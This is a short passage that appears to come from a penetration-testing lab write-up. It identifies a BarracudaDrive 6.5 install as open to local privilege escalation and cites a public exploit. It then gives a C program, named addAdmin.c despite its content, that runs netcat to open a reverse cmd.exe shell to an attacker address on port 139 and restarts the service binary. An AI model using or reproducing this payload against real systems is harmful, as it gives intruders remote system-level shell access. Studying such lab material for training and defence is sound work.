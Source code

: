 It appears that the version of BarracudaDrive is 6.5, since the changelog stops there.

![](../../.gitbook/assets/65116cfe1c9f42519c4a472bcf2c9ea9.png)

This version is vulnerable to a local privesc vulnerability: [https://www.exploit-db.com/exploits/48789](https://www.exploit-db.com/exploits/48789)

Create `addAdmin.c`:

```c
#include <windows.h>
#include <winbase.h>

int main(void){
     system("C:\\Sites\\userpro\\nc.exe 192.168.49.237 139 -e cmd.exe");
     WinExec("C:\\bd\\bd.service.exe", 0);
    return 0;
}
```
